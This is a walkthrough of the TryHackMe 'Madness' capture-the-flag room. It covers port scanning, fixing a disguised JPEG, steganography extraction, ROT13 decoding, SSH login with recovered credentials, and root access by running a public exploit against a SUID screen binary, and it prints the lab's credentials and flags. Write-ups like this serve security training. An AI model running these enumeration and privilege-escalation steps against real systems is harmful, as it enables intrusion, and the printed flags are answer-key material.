 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.81.42
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 15:36 IST
Nmap scan report for 10.10.81.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


### Let download this imge
```
wget http://10.10.81.42/thm.jpg
```
### Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
### Let take look at this:
```
http://10.10.81.42/th1s_1s_h1dd3n
```
### Source code i got this ```http://Ip/th1s_1s_h1dd3n/?secret=```

<div align="center">
  <img src="https://github.com/user-attachments/assets/cd9f8dce-c50d-4732-a035-7c04232298ed" height=""></img>
</div>

### Doing this manually take a long time let automate this with help of python, I already created secret.py [tap here](./secret.py) 
```
death@esther:~$ python3 secret.py 
Enter IP:10.10.81.42
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```
```
y2RPJ4QaPF!B
```

### Let try steghide maybe this is the passphrase,
```
death@esther:~$ steghide info thm.jpg
"thm.jpg":
  format: jpeg
  capacity: 1.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hidden.txt":
    size: 101.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
```
steghide extract -sf thm.jpg
```
### We got hidden.txt
```
death@esther:~$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```
### This username looks strange to me let try to decode this
```
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
### this is ```Rot13``` cypher on cyberchef
<div align="center">
  <img src="https://github.com/user-attachments/assets/b76ced3d-fed9-4105-87bb-f69c036a6921" height=""></img>
</div>

### ```joker``` this is the real username.

### I have tried everthing but didn't find anything after help of some resource i found the lab banner contain some information. 
```
wget https://github.com/Esther7171/THM-Walkthroughs/blob/main/Madness/banner.jpg
```
```
death@esther:~$ steghide info banner.jpg 
"banner.jpg":
  format: jpeg
  capacity: 6.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "password.txt":
    size: 83.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
### It just a blank entry as passphase,
```
death@esther:~$ steghide extract -sf banner.jpg 
Enter passphrase: 
wrote extracted data to "password.txt".
```
### Let take a look at this password.txt
```
death@esther:~$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```
### Let log in with SSH.
* ### Username: ```joker```
* ### Password: ```*axA&GF8dP```
* ### ```ssh joker@<IP>```
```
death@esther:~$ ssh joker@10.10.81.42
The authenticity of host '10.10.81.42 (10.10.81.42)' can't be established.
ED25519 key fingerprint is SHA256:B0gcnLQ9MrwK4uUZINN4JI6gd+EofSsF2e8c5ZMDrwY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.81.42' (ED25519) to the list of known hosts.
joker@10.10.81.42's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ 
```
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
```
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

